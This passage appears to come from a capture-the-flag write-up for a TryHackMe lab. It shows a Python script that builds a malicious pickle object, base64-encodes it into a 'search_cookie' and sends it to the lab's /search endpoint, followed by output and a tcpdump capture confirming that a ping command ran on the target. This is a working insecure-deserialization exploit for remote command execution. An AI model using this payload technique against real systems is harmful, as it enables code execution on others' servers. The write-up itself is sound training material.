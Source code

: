 ```py
            pickle.dump(serializeContent, file)

        logging.info(f'Before serialized: {serializeContent}')

        with open('serialized.txt', 'rb') as file:
            serialized = file.read()
            base64Encoded = b64encode(serialized)
            logging.info(f'Serialized: {serialized}')
            logging.info(f'Base64 encoded: {base64Encoded}')

            finalPayload = {
                'search_cookie': base64Encoded.decode('utf-8')
            }
            
            logging.info(f'Sending a GET request to /search, so we can trigger the payload...')
            requests.get(url, cookies=finalPayload)
            logging.info(f'Payload sent...')

def main():
    logging.basicConfig(level=logging.INFO, format='[*] %(message)s')

    cookie = 'gASVCAAAAAAAAACMBHRlc3SULg=='

    serialization = Serialization(cookie)
    # serialization.decodeSearchCookie()
    # serialization.deserializeObject()

    serializeContent = Exploit()
    url = 'http://unbaked-pie.thm:5003/search'
    serialization.serializeObject(serializeContent, url)

if __name__ == '__main__':
    main()
```

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Unbaked-Pie)-[2023.01.13|08:36:07]
└> python unpickle.py
[*] Before serialized: <__main__.Exploit object at 0x7f33eff30220>
[*] Serialized: b'\x80\x04\x950\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c\x15ping -c 4 10.9.0.253 \x94\x85\x94R\x94.'
[*] Base64 encoded: b'gASVMAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjBVwaW5nIC1jIDQgMTAuOS4wLjI1MyCUhZRSlC4='
[*] Sending a GET request to /search, so we can trigger the payload...
[*] Payload sent...
```

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Unbaked-Pie)-[2023.01.13|08:36:55]
└> tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
08:36:57.449598 IP unbaked-pie.thm > 10.9.0.253: ICMP echo request, id 631, seq 1, length 64
08:36:57.449620 IP 10.9.0.253 > unbaked-pie.thm: ICMP echo reply, id 631, seq 1, length 64
08:36:58.449952 IP unbaked-pie.thm > 10.9.0.253: ICMP echo request, id 631, seq 2, length 64
08:36:58.449983 IP 10.9.0.253 > unbaked-pie.thm: ICMP echo reply, id 631, seq 2, length 64
08:36:59.449998 IP unbaked-pie.thm > 10.9.0.253: ICMP echo request, id 631, seq 3, length 64
08:36:59.450035 IP 10.9.0.253 > unbaked-pie.thm: ICMP echo reply, id 631, seq 3, length 64
08:37:00.450310 IP unbaked-pie.thm > 10.9.0.253: ICMP echo request, id 631, seq 4, length 64
08:37:00.450340 IP 10.9.0.253 > unbaked-pie.thm: ICMP echo reply, id 631, seq 4, length 64
```
